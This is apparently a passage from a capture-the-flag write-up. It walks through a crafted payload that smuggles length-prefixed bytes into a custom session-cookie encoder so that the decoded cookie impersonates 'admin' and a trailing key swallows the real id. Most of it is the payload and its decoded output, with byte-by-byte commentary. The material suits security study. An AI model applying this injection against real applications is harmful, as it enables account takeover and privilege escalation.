 

```javascript
// PAYLOAD BEFORE ENCODING
{
    'name': 'nytr0gen31337',
    'age': 20,
    'desc': 13,
    "zzzz\u00bd\u00bd\u00bd\u00bd\u00bd\u0001\u0005\u0000\u0000\u0000": "\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin" +
        "\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918" +
        "\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5" +
        "\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000",
    'password': '65e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5',
    'id': 'deadbeefb5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'
}
```

What interests us is this part
```
"zzzz\u00bd\u00bd\u00bd\u00bd\u00bd\u0001\u0005\u0000\u0000\u0000":
    "\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin" +
    "\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918" +
    "\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5" +
    "\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000",
```

So we have `4*z`, `5*\u00bd` and `\u0001\u0005\u0000\u0000\u0000`. This helps us skip 5 magic header bits from the key. Specifically `\u0001\u00bb\u0000\u0000\u0000`. So everything in the value part gets decoded as new keys.

name. `\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin` admin yeah

id. `\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918`. sha256('admin')

password. `\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5`. sha256('qwerty')

As you have seen before, id is always put last when creating the session cookie. We have to make the decoder skip it, because it will overwrite our id. bad.

`\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000`. this does exactly that. under the key `pl` with a length of `\u00ff\u00ff\u0000\u0000 == 65535`. It seems that if I tried a length lesser than what was after it, the script will fail miserably. But anything bigger is cool.

What does it look like after decoding?

```javascript
// ENCODED_PAYLOAD AFTER DECODING
{ name: 'admin',
  age: 20,
  desc: 13,
  'zzzz½½½½½': '\u0001\u00bb\u0000\u0000\u0000',
  id:
   '8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918',
  password:
   '65e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5',
  pl:
   '\u0000\u0000\b\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u0000deadbeefb5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918' }
```
